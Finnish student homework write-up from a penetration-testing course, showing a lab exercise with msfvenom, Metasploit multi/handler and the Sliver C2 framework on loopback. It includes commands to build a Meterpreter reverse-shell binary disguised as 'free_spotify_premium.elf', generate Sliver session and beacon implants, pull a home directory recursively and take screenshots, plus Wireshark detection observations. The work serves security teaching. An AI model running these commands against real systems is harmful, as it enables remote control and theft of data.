










# h6 Simpukoita
Kotitehtävä h6 Simpukoita Tero Karvisen Tunkeutumistestaus 2025 syksy -kurssille. [Linkki kurssisivulle](https://terokarvinen.com/tunkeutumistestaus/)
Jokaisessa kohdassa on alla olevalla "quote" tyylillä kerrottu tehtävänanto.
>Liirum laarum laa...

## Tehtävät
### a) 
> Snif Venom! Näytä esimerkki yhteydestä: reverse shell msfvenom:lla tehdystä binääristä -> metasploit multi/handler. Tarkastele yhteysttä snifferillä, kuten Wireshark. Mitä havaitset? Mistä ominaisuuksista yhteyden voi tunnistaa? Millä muutoksilla tunnistamista voi vaikeuttaa?

Aluksi tein reverse shell haittatiedoston msfvenomilla sekä vaihdoin tiedoston oikeudet.

    mdkdir msfvenom
    cd msfvenom
    msfvenom -p linux/x64/meterpreter/reverse_tcp LHOST=127.0.0.1 LPORT=4444 -f elf > free_spotify_premium.elf
    chmod u+x free_spotify_premium_elf

Tämän jälkeen avasin `msfconsolen`. Sitten asetin moduulin `use exploit/multi/handler` sekä payloadin `set payload linux/x64/meterpreter/reverse_tcp`.

Sitten vielä LHOST:n sekä LPORT:n asettaminen.

 Kaikessa tässä pitää käyttää samoja asetuksia, kuin tehdyssä haittaohjelmassa.

Nyt testataan, että toimiiko reverse shell. Suoritetaan haittaohjelma ``./free_spotify_premium.elf`` sekä suoritetaan hyökkäys metasploitissa `run`. Ja sehän onnistui. 

Avasin wiresharkin ja valitsin, että wireshark tarkastelee ``loopback: lo`` interfacea. Vaikka meterpeter vain kuuntelee, näkyy silti sen ja kohdekoneen välinen liikenne wiresharkissa aika helposti. 

 ### b)
 > Hello, Sliver. Näytä esimerkki http-yhteydestä Sliverillä.

Aloitin lataamalla sliverin komennolla `curl https://sliver.sh/install|sudo bash` jonka jälkeen käynnistin sen `sliver`

Lähdin tämän jälkeen seuraaman sliverin sivuilta löytyvää tutoriaalia, https://sliver.sh/tutorials?name=1+-+Getting+Started. Se on tehty uudemmalle 1.6 versiolle, mutta katsotaan toimiiko se myös tällä vanhemmalla versiolla.

Loin haittaohjelman "implantin" komennolla `generate -b localhost --os linux --skip-symbols --debug`.

Sen jälkeen katsoin, oliko implant tullut sliveriin käytettäväksi ja käynnistin kuuntelijan portissa 80.

Kun nyt olin käynnistänyt kuuntelijan, suoritin implantin. Tästä tuli ilmoitus sliveriin, että uusi sessio avattu. 

Enää ei tarvinnut tehdä muuta kuin `use` jonka jälkeen kirjoitin implantin nimen `PRECIOUS_WINTER`. Implant toimi onnistuneesti ja testasin `ls` komentoa. ``ls`` komento käyttää näköjään suoraan myös -la parametreja, kätevää!

Testasin vielä ladata jonkin tiedoston kohdekoneelta omalle koneelleni. Tätä varten tein muutaman tiedoston.

    ┌──(ttma㉿tuntem)-[~]
    └─$ mkdir testfolder
                                                                                            
    ┌──(ttma㉿tuntem)-[~]
    └─$ cd testfolder 
                                                                                            
    ┌──(ttma㉿tuntem)-[~/testfolder]
    └─$ echo "hi" > hi.txt
                                                                                            
    ┌──(ttma㉿tuntem)-[~/testfolder]
    └─$ echo "hello" > hello.txt
                                                                                            
    ┌──(ttma㉿tuntem)-[~/testfolder]
    └─$ cd ..        
                                                                                            
    ┌──(ttma㉿tuntem)-[~]
    └─$ mkdir hifolder          
                                                                                            
    ┌──(ttma㉿tuntem)-[~]
    └─$ cd hifolder 
                                                                                            
    ┌──(ttma㉿tuntem)-[~/hifolder]
    └─$ mkdir lol     
                                                                                            
    ┌──(ttma㉿tuntem)-[~/hifolder]
    └─$ cd lol     
                                                                                            
    ┌──(ttma㉿tuntem)-[~/hifolder/lol]
    └─$ echo "hello" > hello.txt
                                                                                            
    ┌──(ttma㉿tuntem)-[~/hifolder/lol]
    └─$ echo "hi" > hi.txt      
                                                                                    
    ┌──(ttma㉿tuntem)-[~/hifolder/lol]
    └─$ 

Sitten latasin koko kansion tiedostot sliverilla `download -r /home/ttma/
`. Tässä `-r` parametri kertoo, että ladataan rekursiivisesti koko kansio.

 

Tässä alempana näkyy selkeämmin rekursion hyöty.

### c)
>Sniff Sliver! Tarkastele Sliverin http-yhteyttä snifferillä. Mitä havaitset? Mistä ominaisuuksista yhteyden voi tunnistaa?

Otin tässä vaiheessa pienen tauon ja sammutin koneen. Kun koitin jatkaa, ei sliver lähtenyt päälle. Löysin googlettamalla `Connecting to localhost:31337 ...
Connection to server failed context deadline exceeded ` vastauksen ongelmaan. Ensimmäisenä hakutuloksena tuli vastaan discussion sliverin repossa, jossa neuvottiin aloittamaan sliver.service uudelleen `sudo systemctl start sliver.service`. Testasin tätä ja onnekseni se toimi. 

Sitten vielä `http` jotta saan portin auki kuuntelua varten, `./PRECIOUS_WINTER` käynnistän implantin toisessa konsolissa sekä `use` sliverissä. Nyt sain taas sliverin kautta yhteyden. 

Yhteyden tunnistaa aika helposti esimerkiksi wiresharkin kautta. Yhteys lähettää noin 130 pakettia minuutissa idlena, eli kun hyökkääjä ei lähetä mitään komentoja. Nopeasti katsottuna sliver lähettää `HTTP/GET` javascript pyyntöjä. Sekä tietty myös ACK, joka varmistaa että paketti on saapunut.

Yhteys on helppo nähdä tällaisella koneella, jossa:
* Ei ole yhteyttä nettiin
* Ei ole ylimääräisiä ohjelmia, jotka ottaisivat koko ajan yhteyttä internettiin
* Source ja Destination ovat sama ip (loopback)

Jos kohteena olisi jokin normaali kone jossa on asennettu kymmeniä sovelluksia, jotka ovat automaattisesti päällä olisi silloin havaitseminen paljon vaikeampaa.

### d)
> Sliverillä voit muuttaa yhteyden ominaisuuksia. Kokeile ja näytä esimerkkejä. Muista todeta testein, että muutokset toimivat.

Aiempi käyttämäni sliverin implanti oli "session", eli se koko ajan piti TCP:n kautta yhteyden hyökättyyn koneeseen. Sliverissä on myös mahdollista tehdä beacon implantti. Tämä mahdollistaa yhteyden ottamisen tietyn väliajan välein piilottaen sen muun verkkoliikenteen sekaan helpommin.

Aloitetaan luomalla uusi implantti

    sliver
    generate beacon -b localhost --skip-symbols --debug -j 5 -S 15 --os linux
* -i määrittää callback timen, eli kuinka usein se ottaa yhteyden
* -j määrittää "jitterin" eli viiveen/pingin (Tästä en ole 100% varma mitä se tekee)

Tämän jälkeen suoritin tiedoston toisessa komentorivissä. Sitten katsoin näkyykö se sliverissä `beacons`. Se näkyi jonka jälkeen `use` ja valitsin kyseisen beaconin, eli `PARALLEL_COMB`. Yhteys toimii siten, että pystyt pistämään komentoja jonoon, eli antaa tehtäviä (tasks). 

Tässä alla vielä selkeämpi esimerkki

Tämä beacon yhteys on paljon vaikeampi huomata, sillä se ottaa yhteyden vain tietyn ajoin. Tämä on paljon vaikeampi havaita muun verkkoliikenteen seassa. Kuten tässä esimerkissä näkyy, ottaa se paljon harvemmin yhteyttä kuin aikaisempi "session" yhteys.

### e)
> Sliverillä voi tehdä monenlaista kohteessa, ruutukaappauksista alkaen. Näytä esimerkkejä toiminnoista.

Demosinkin jo b) kohdan lopussa yhtä ominaisuutta, eli tiedostojen latausta kohteelta hyökkääjälle. Homma toimii myös toisinpäin, eli pystyt lataamaan tiedostoja kohteelle. Tämä toimii siten että kerrot minkä tiedoston siirrät hyökkääjän koneelta kohteen koneelle. Tässä esimerkissä siirsin kuvan "hyökkääjän" koneelta suoraan sinne, missä polussa sliver on eli /home/ttma.
`upload /home/ttma/Pictures/Screenshot_2025-09-21_18_48_40.png`

Testasin vielä screenshot ominaisuutta `screenshot`. Tässä alla näytönkaappaus jonka sliver otti.

Veikkaan että Sliver ottaa kohteen koneen näkymästä ruudunkaappauksen ja lähettää sen hyökkääjän koneelle. Tämä testiympäristö on vähän huono, koska kohde sekä hyökkääjä toimivat samasta koneesta joten näytönkaappaus näyttää ns saman näkymän, mitä hyökkääjä ja kohde näkevät sillä olen itse molemmat.
# Lähteet
* https://terokarvinen.com/tunkeutumistestaus/

* https://github.com/BishopFox/sliver

* https://sliver.sh/

* https://sliver.sh/tutorials?name=1+-+Getting+Started

* https://github.com/BishopFox/sliver/discussions/1320
* https://sliver.sh/tutorials?name=2+-+Beacons+vs+Sessions